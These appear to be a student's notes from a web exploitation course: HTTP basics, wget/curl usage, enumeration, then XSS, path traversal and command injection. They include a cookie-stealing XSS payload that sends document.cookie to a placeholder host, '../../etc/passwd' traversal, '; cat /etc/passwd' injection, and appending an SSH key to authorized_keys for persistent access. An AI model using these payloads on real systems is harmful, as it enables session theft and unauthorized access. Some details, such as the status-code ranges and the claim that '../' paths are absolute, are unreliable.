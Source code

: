 # Web Exploitation - Day 1
SERVER/CLIENT RELATIONSHIP
  - Synchronous communications between user and services. All data is not returned, client only receives what is allowedSynchronous communications between user and services

All data is not returned, client only receives what is allowed
  
HYPERTEXT TRANSFER PROTOCOL (HTTP)
  - Request/Reply
    - Various tools to view; tcpdump, wireshark, dev console
    - `GET / HTTP/1.1`
    - `HTTP/1.1 200 OK`
      - HTTP METHODS
        - **GET**
          - GET request may be used to pass data to the server through the URL
        - HEAD
        - **POST**
        - PUT 
      - HTTP RESONSE CODES
        -  10X == Informational
        -  2XX == Success
        -  30XX == Redirection
        -  4XX == Client Error
        -  5XX == Server Error

WGET
  - Recursive Download, recover from broken transfers, SSL/TLS support
  - `wget -r -l2 -P /tmp ftp://ftpserver/` - (-l2): two layers deep, (-P): can save it to directory thats not CWD
  - `wget --save-cookies cookies.txt --keep-session-cookies --post-data 'user=1&password=2' http://website` - post request
  - `wget --load-cookies cookies.txt -p http://....com/interesting/article.php`

CURL
  - Not recursive, can use pipes, upload ability
  - supports more protocols vs WGET such as SCP, POP3
  - `curl -o stuff.html http://website/stuff.html`
  - `curl 'www..com' -H 'Cookie: name=123; settings=1,2,3,4,5,6,7' --data 'name=Stan' | base64 -d > item.png`
    - -H is header, creating http header

HTML
  - Standardized markup language for browser interpretation of web pages
    - Client side interpretation (web browser)
    - Utilizes elements which are identified by tags
    - Typical refers another "page" for server side interaction
    - Cascading Stylesheet (CSS) for page theme

JavaScript
  - Allows websites to interact with the client
    - JavaScript runs on the client's machine
    - Coded as .js files or in line with html 

Enummeration
  - Robots.txt
    -  file is utilized by website owners to communicate what file and directory paths web robots (web crawlers) should index
  - Legitimate surfing
  - Tools: NSE scripts, nikto, Burp suite
    - nikto -h x.x.x.x

Cross-Site Scripting (XSS)
  - Insertion of arbitrary code into a web page that executes in the browser of visitors
  - Unsanitized GET, POST, and PUT methods allow JS to operate on websites
  - It is often found in forums that allow HTML
  - ***have to verify that cross-site scripting is even possible***
    - Reflected XSS
      - most common form of XSS
    - Stored XSS
      - relies on vulnerable site
      - only requires user visit page
      - `<img src="http://10.50.XX.XX" onerror="window.open(&quot;http://10.50.CC.CC:8000/ram.png&quot;,&quot;xss&quot;,'height=500,width=500');">`
      - have to proof of concept make sure there is javascript to XSS
        -  `<script>alert('XSS')</script>` - maybe use double quotes
          - put this in a field that looks like its vulnerable to cross site scripting  
          - `<script>document.location="http://X.X.X.X/uploads/cookies.php?username="+document.cookie;</script>`

Server-Side Injection
  - Directory Traversal/Path Traversal
    -  Ability to read/execute outside web server’s directory
    - uses ../../ (absolute paths) in manipulating variables
      - `view_image.php?file=../../etc/passwd`
        - can add as many `./../../../../`to test whereasfh;AFH
  - Site allows unsanitized file uploads
    - Server doesn’t validate extension or size
    - Allows for code execution → shell
    - Once uploaded, find your file, call your file

Command Injection
  - if unable to get webshell
  - Application on the server is vulnerable by allowing execution of arbitrary data.
    - Again, user input not validated
    - SOHO router with a web page to do ping
      - To test:
        - `; cat /etc/passwd
        - `; whoami`
      - now can 
        - `; ls`

generating new ssh keys 

`ssh-keygen -t rsa -b 4096`

`enter enter enter`

`cat ~/.ssh/id_rsa.pub`

`>>var/www/.ssh/authorized_keys`

`; echo "ssh-keygen balshkgoiheg" >> /var/www/.ssh/authorized_keys











































  
